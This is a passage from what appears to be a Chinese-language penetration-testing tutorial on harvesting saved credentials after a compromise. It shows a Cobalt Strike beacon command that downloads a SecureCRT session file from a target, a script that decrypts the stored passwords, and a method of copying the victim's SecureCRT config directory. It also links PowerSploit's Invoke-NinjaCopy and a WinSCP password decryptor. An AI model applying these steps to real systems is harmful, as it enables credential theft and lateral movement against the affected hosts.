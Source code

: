     beacon> download c:\windows\temp\192.168.144.128.ini
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205447294.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**脚本解密Session**

将下载的ini文件拷贝到本地，利用脚本进行解密。环境：python 2.7、pycrypto库。此处解密脚本仅限于 SecureCRT 7.x 以下的版本！

    sudo pip2 install pycrypto
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205513748.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    python SecureCRT-decryptpass.py 192.168.144.128.ini
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205538136.png%23pic_center)-
**SecureCRT高版本解决**

如果目标的SecureCRT版本较高，无法进行解密该怎么办？此处以 8.5.3（X64 build 1867）为例，直接把对应%APPDATA%\\VanDyke\\Config\\ 整个目录拷贝到本机SecureCRT的Config目录下，然后直接连接。

目标SecureCRT版本与本地版本需一致，否则可能会出现问题-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205558216.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205606916.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

##### 附上脚本

Winscp:-
[ListInstalledPrograms.ps1](https://github.com/3gstudent/ListInstalledPrograms/blob/master/ListInstalledPrograms.ps1)

[winscppwa.exe](https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe) --目前无法连接

SecureCRT：-
[ListInstalledPrograms.ps1](https://github.com/3gstudent/ListInstalledPrograms/blob/master/ListInstalledPrograms.ps1)

[Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)

[SecureCRT-decryptpass.py](https://github.com/gitPoc32/Forensic/blob/5c82582d21811a2257e3f68bd95f5e8735d834cd/VanDykeSecureCRT/SecureCRT-decryptpass.py)

* * *

#### 5.2.7 破解Weblogic配置文件中的数据库密码

    https://www.freebuf.com/articles/web/220147.html  --这篇集合了很多思路和方法
    
    树上介绍了使用工具WebLogicPWV1.0.jar进行破解
    
        

这里如果进行config.xml获得hash破解密码，需要去两次密码…

* * *
